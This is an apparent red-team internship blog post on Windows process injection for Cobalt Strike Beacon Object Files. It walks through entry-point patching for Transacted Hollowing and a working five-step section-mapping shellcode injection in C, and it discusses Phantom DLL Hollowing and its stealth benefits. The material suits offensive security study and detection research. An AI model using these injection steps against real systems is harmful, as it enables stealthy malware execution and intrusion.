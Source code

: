 ```yaml
---
layout: article
title:  Week 7
tags: internship beacon-object-files cobalt-strike process-injection phantom-dll-hollowing
date:   2021-06-05 08:00:00 +0100
show_edit_on_github: false
show_subscribe: false
license: false
key: week-7
categories: archived
hidden: true
---
```


This week I try to mend what is broken, sharing is caring, and I play a round of [Phasmophobia](https://store.steampowered.com/app/739630/Phasmophobia/) but with code.
<!--more-->

### 1. Past, present, future

Writing this blogpost was kind of difficult. There are a lot of interesting things I would like to cover, but they're also very similar to previous techniques or methods I've already covered in my previous blogposts. On one side, they're more advanced forms of said techniques, on the other they're also exponentially more difficult to fully understand, hence I feel like I won't do them any justice with my ramblings.

With that said, I'd like to cover some of the things I've been working on this week and where I'm headed next.

[Last week](/2021/05/01/week-6.html) I introduced some additional persistence techniques through registry keys and talked about the concepts of [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) and [Process Doppelganging](https://attack.mitre.org/techniques/T1055/013/), as well as [Transacted Hollowing](https://blog.malwarebytes.com/threat-analysis/2018/08/process-doppelganging-meets-process-hollowing_osiris/) introduced in the [Osiris banking trojan](https://en.wikipedia.org/wiki/Kronos_(malware)).

I attempted to replicate the functionality of Transacted Hollowing but ended up stuck at the part where the [PEB](https://en.wikipedia.org/wiki/Process_Environment_Block) is patched and the remote entry point is updated, so I never managed to get code execution. (╯°□°）╯︵ ┻━┻

### 2. One step forward, 2 steps back

With the help of some very talented friends in the infosec community, I've tried to identify what I was doing wrong and if what I was doing is even possible.

Code that patches the remote entry point:
```c
DWORD oldProtect;
SIZE_T bytesToChange = 6;
NtProtectVirtualMemory(pi.hProcess, &rEntrypoint, &bytesToChange, PAGE_READWRITE, &oldProtect);

char patch[6] = { 0 };
memcpy_s(patch, 1, "\xE9", 1);
DWORD jumpsize = rBaseAddr - rEntrypoint;
memcpy_s(patch + 1, 4, &jumpsize, 4);
memcpy_s(patch + 5, 1, "\xC3", 1);
bytesWritten = 0;
NtWriteVirtualMemory(pi.hProcess, rEntrypoint, patch, sizeof(patch), &bytesWritten);

DWORD oldOldProtect;
NtProtectVirtualMemory(pi.hProcess, &rEntrypoint, &bytesToChange, oldProtect, &oldOldProtect);
```

I have been assuming that upon process creation, the *AddressOfEntryPoint* pulled from the PE header points to `main()`, which might not be true. Supposedly it points at `crtWinMain` which is responsible for setting up the standard library, running global constructors and initializing global variables. However, I'm not sure this is the issue, as I'm redirecting execution to a new executable which doesn't need the global variables and constructors, maybe it needs the standard library though.

A second issue might be the instructions I'm using to patch the entry point: `JMP <offset>`. JMP or `0xE9` is a [relative jump instruction](https://www.ragestorm.net/blogs/?p=107), meaning it uses a pre-calculated offset (destination_address - source_address) to jump from the current address to the target address. The range we can jump is limited to 2GiB, this comes from the fact that we have 5 bytes for the entire patch, of which 4 for the offset and 1 for the JMP instruction. A signed integer in C is 4 bytes, its maximum positive value is 2,147,483,647 or 0x7FFFFFFF in hexadecimal (2^31 - 1). This matches the value of 2GiB (gibibytes) in bytes: 2,147,483,648 or 0xFFFFFFFF.

Again, however, it is unlikely that the offset between the current entry point address and the target entry point address is bigger than 2GiB, given that we're mapping the section into a newly created process with few loaded libraries.

I have also noticed that when calling `NtProtectVirtualMemory` on the remote entry point, followed by calling `NtWriteVirtualMemory` on the remote entry point, the address associated with the remote entry point `rEntrypoint` is different.

```c
NTSYSAPI 
NTSTATUS
NTAPI

NtProtectVirtualMemory(
  IN HANDLE               ProcessHandle,
  IN OUT PVOID            *BaseAddress,
  IN OUT PULONG           NumberOfBytesToProtect,
  IN ULONG                NewAccessProtection,
  OUT PULONG              OldAccessProtection );
```

If we look at the function prototype of `NtProtectVirtualMemory`, the `*BaseAddress` parameter is declared as **IN OUT**. On input, it will change protections on all pages containing the specified address. On output it will point to the *page start address*. This means that when we specify the remote entry point address `rEntrypoint` as `*BaseAddress` -> `0x00001337`, it will change protections on the page containing the address `0x00001337`, and then update `*BaseAddress` to point to the start of the page -> `0x00001000`.

As a result, an offset of `- 0x337` is introduced to our `rEntrypoint` variable, and the following `NtWriteVirtualMemory` call will write our patch to the start of the page at `0x00001000` instead of overwriting the remote entry point at `0x0001337`. This means I will either have to ommit the `NtProtectVirtualMemory` call by mapping the section with **RWX** permissions instead of **RX** permissions and sacrifice stealth in the process, or factor in the offset and restore the original address, or avoid using the same variable in both functions alltogether.

As of time of posting, I haven't found a solution yet and decided to take a step back and try something a little bit easier first. ┬─┬ノ( º _ ºノ)

### 3. Views... views everywhere

Last week I also discussed Section Objects and Views. The key takeaway was that Section Objects represent shared memory that can be accessed by different proccesses through a View. Naturally I'm going to abuse this, in only 5 steps no less :)

#### 1. Creating a section

You cannot build a house without a solid foundation, neither can we inject shellcode without memory. The first thing we need is a new empty section with **PAGE_EXECUTE_READWRITE** permissions.

```c
NtCreateSection(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&section_size, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

#### 2. Mapping the views

With the section created, we can now map a view of it into the local process with **PAGE_READWRITE** permissions and into the remote target process with **PAGE_EXECUTE_READ** permissions.

```c
LPVOID localSectionAddress = 0;
NtMapViewOfSection(hSection, GetCurrentProcess(), &localSectionAddress, 0, 0, NULL, &shellcode_size, ViewUnmap, 0, PAGE_READWRITE);

LPVOID remoteSectionAddress = 0;
NtMapViewOfSection(hSection, pi.hProcess, &remoteSectionAddress, 0, 0, NULL, &shellcode_size, ViewUnmap, 0, PAGE_EXECUTE_READ);
```

#### 3. Payload!

Once the section is mapped, we can write our shellcode to the mapped section via the **local** process. Because the section was mapped to the local process with **PAGE_READWRITE** permissions, we can write to it without issue, and the changes will be reflected in the remote process because the section is shared memory.

```c
memcpy(localSectionAddress, shellcode, shellcode_size);
```

#### 4. More entry point redirection

With the shellcode in place, we can use `NtGetContextThread` and `NtSetContextThread` to update the `RCX` register to contain the remote section address.

```c
NtGetContextThread(pi.hThread, &ctx);

ctx.Rcx = (DWORD64)remoteSectionAddress;

NtSetContextThread(pi.hThread, &ctx);
```

#### 5. Hackerman

We have successfully abused shared memory to execute shellcode in a remote process.

```c
NtResumeThread(pi.hThread, NULL);
```

![Mr. Robot](https://media.giphy.com/media/l4EpkVLqUj8BI7OV2/giphy.gif)

### 4. Let's get spooky

Knowing that I could use Section Object and Views in combination with `NtGetContextThread` and `NtSetContextThread`, I was ready to revisit my Transacted Hollowing problems when I stumbled into a [blogpost](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing) on DLL hollowing by [@Forrest Orr](https://twitter.com/_ForrestOrr).

The post goes over the differences between legitimate memory allocation and malicious memory allocation. In short it comes down to differences in protections (R,W,X) between private memory, mapped memory and image memory, and for image memory in particular between the different sections, most notable the `.text` section which is **RX** protected.

Further on in his post, he details a new concept called [Phantom DLL Hollowing](https://github.com/forrest-orr/phantom-dll-hollower-poc) which uses Transactions (TxF) to avoid the need to use `NtProtectVirtualMemory` and avoid creating a new private view of the modified image section.

When a Section Object is created from a portable executable (PE) file, the memory type associated with the section will be image memory (MEM_IMAGE) and by default this is RWXC (read, write, execute, copy) protected. By default, mapped views of image sections created from DLLs are shared as a memory optimization by Windows. When a process modifies a mapped view of a shared section, Windows will store a private copy of the modified section in that process.

Phantom DLL Hollowing uses a transaction to read in a legitimate DLL, modify the `.text` section in the DLL with position independent shellcode (PIC), create a new Section Object from the transacted file, roll back the transaction and map the malicious Section into process memory to achieve code execution.

I have managed to successfully get code execution using this technique adapted to a Beacon Object File using the Beacon process to inject in.

![Phantom Hollowing BOF](/assets/images/phantom-hollowing.png)

Unfortunately I ran into similar issues as I did with Transacted Hollowing when trying to get the remote process to execute the shellcode in the mapped section. There are still a lot of technical concepts used by this technique which I don't (fully) understand, so I will save the technical deepdive and code for next week's blogpost.

### 5. Wrapping up

I feel like I've reached a point this week, where resources are scarce, documentation is obscure and techniques got exponentially more difficult to understand and pull off. Whereas at first I would spent the majority of my time writing code, I now spent more time on research, and unfortunately time is running out really soon. I do however enjoy the challenge of it all, and I look forward to sharing the solutions to my problems when I find them.

`NtDelayExecution(FALSE, 604800000);`